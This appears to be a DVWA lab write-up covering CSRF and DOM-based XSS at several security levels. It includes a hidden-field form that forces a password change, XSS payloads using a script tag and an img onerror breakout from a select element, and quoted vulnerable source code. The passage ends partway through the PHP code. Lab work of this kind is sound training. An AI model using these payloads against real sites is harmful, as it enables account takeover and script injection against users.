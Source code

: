 ## Low
```html
<form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/?" method="GET">
 <h1>Click Me</h1>
 <input type="hidden" AUTOCOMPLETE="off" name="password_new" value="hacked">
 <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="hacked">
 <input type="submit" value="Change" name="Change">
</form>
```

The above website is a phishing website created by the attacker, it sends a request to the link,
"http://127.0.0.1/dvwa/vulnerabilities/csrf/?" with the new password in the parameters of the link. It is hence used to attack the CSRF vulnerability, since, the website doesn't check for the source of the request.

---
# XSS DOM
## Low 
**Attack :**  `<script>alert("hacked")</script>`
## Medium
```html
<select name="default">
				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}
					    
					document.write("<option value='English'>English</option>");
					document.write("<option value='French'>French</option>");
					document.write("<option value='Spanish'>Spanish</option>");
					document.write("<option value='German'>German</option>");
				</script>
			</select>
```
We have to break out of the `<select>` tag, and for that we have to, use the following command.
Our input is `lang`	, from there,
**Attack :**`></option></script></select><img src=x onerror=alert("hacked")>`
## High
The programmer has set it in such a way that, any other input we give other than the four languages will be defaulted to English.

```php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
```